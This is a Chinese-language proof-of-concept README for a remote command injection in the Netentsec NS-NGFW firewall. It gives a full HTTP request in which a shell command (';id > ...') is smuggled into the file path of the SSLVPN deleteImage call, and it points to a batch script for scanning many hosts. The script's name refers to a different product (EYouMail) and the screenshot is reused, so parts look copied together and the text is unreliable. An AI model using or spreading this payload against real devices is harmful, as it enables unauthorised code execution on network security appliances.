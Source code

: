 # 0x00 软件介绍
网康NGFW：网康Next Generation FireWall，即网康下一代防火墙，网康NS-NGFW是网康下一代防火墙系列中的一款  
官网：https://www.netentsec.com/product/lists_265.html

# 0x01 复现环境
复现环境：本地环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
burp中发送如下请求
```
POST /directdata/direct/router HTTP/1.1
Host: xxx.xxx.160.154:4430
User-Agent: Mozilla/5.0
Content-Length: 254
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

{
    "action": "SSLVPN_Resource", 
    "method": "deleteImage", 
    "data": [
        {
            "data": [
                "/var/www/html/d.txt;id > /var/www/html/1.txt"
            ]
        }
    ], 
    "type": "rpc", 
    "tid": 17
}
```
返回如下图  
![image](./pic/0.png)  
此时，再去访问根目录下的1.txt，如下图  
![image](./pic/1.png)

# 0x05 批量脚本
EYouMailRCE-Batch-Detect.py，具体用法见：python3 EYouMailRCE-Batch-Detect.py -h  
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw
